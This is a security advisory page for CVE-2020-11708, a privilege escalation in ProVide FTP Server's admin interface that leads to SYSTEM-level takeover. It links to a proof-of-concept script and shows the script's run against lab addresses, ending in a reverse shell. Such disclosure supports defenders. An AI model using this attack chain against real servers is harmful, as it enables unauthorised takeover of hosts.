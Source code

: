 ```yaml
---
layout: default
parent: ProVide FTP Server for Windows
nav_order: 8
title: CVE-2020-11708 - Privilege Escalation via EXECUTE()
---
```

# Web Admin Interface - Privilege Escalation via EXECUTE()

## Summary

The application allows the FTP server admin to execute programs upon certain events are triggered. This behaviour could be exploited by an attacker, to achieve Vertical Privilege Escalation, leading to full takeover of the underlying hosting server (From Web Application Admin to Windows NT\System user).

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as critical. Affected by this vulnerability is an unknown part of the file /ajax/SetUserInfo. The manipulation of the parameter **messages** with an unknown input value leads to a privilege escalation vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect confidentiality, integrity and availability. An attacker might be able to execute arbitrary code on the underlying hosting server, leading to full server takeover.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11708. The attack can be launched remotely. A single authentication is needed for exploitation. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

The [privesc.py](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/ProVide/Web%20Admin%20Interface%20-%20Privilege%20Escalation%20via%20EXECUTE()/privesc.py) script has been provided to reproduce the issue.

```shell
root@kali:~# python3 privesc_exec.py -t 192.168.226.140 -u Admin -p Passw0rd! -H 192.168.226.129 -P 4444 
[+] Logging in
[+] Creating Rogue User
[+] Enabling FTP
[+] Setting up listener
[+] Triggering reverse shell
[+] Check your shell
```

A video is available as well, to easily understand what the impact could be:

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1lLESY_6B_u39TTjvmJTmS7_JspPBws1D/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

## Remediation

Updating the software to v14.0 or higher should solve the issue.

## References

* [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
* [https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/](https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/)
* [https://cwe.mitre.org/data/definitions/269.html](https://cwe.mitre.org/data/definitions/269.html)